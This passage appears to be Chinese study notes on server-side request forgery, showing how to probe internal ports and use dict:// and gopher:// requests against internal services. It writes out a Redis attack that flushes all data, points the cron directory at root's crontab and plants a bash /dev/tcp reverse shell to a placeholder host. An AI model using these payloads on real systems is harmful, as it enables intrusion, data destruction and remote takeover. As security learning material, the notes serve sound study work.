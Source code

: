 使用ssrf配合DICT协议探测内网端口开放情况:

也可使用http协议

**使用dict协议构造反弹shell - redis**

[https://www.sqlsec.com/2021/05/ssrf.html#toc-heading-2](https://www.sqlsec.com/2021/05/ssrf.html#toc-heading-2)

```txt
# 清空 key
dict://172.72.23.27:6379/flushall

# 设置要操作的路径为定时任务目录
dict://172.72.23.27:6379/config set dir /var/spool/cron/

# 在定时任务目录下创建 root 的定时任务文件
dict://172.72.23.27:6379/config set dbfilename root

# 写入 Bash 反弹 shell 的 payload
dict://172.72.23.27:6379/set x "\n* * * * * /bin/bash -i >%26 /dev/tcp/x.x.x.x/2333 0>%261\n"

# 保存上述操作
dict://172.72.23.27:6379/save
```

### Gopher协议

**为什么要用到gopher协议**

![Untitled](file:///tmp/Export-123bd238-d0e8-4c85-84f8-40e1fbe1d23a/SSRF(Server-Side%20Request%20Forgery)%208896444a46f64714b2a3d272739d77b6/Untitled%205.png?msec=1669820820598)

这里是用到gopher协议传递HTTP的POST请求(SSRF漏洞无法直接发起POST请求)

**构造请求包**

step1: 抓取请求包

step2: 删除HTTP请求的

```txt
Accept-Encoding: gzip, deflate
```

step3: url两次编码整个post请求

![Untitled](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2022_11/Untitled%206.png)

step4: 将编码后的请求作为TCP数据流传入gopher请求中:

```
url=gopher://172.72.23.24:80/<两次url编码的TCP数据流>
```

step5: 成功执行命令

场景:

- 考虑file协议结合XXE外部实体注入,实现ssrf
- ssrf 升级为RCE(通过mysql)

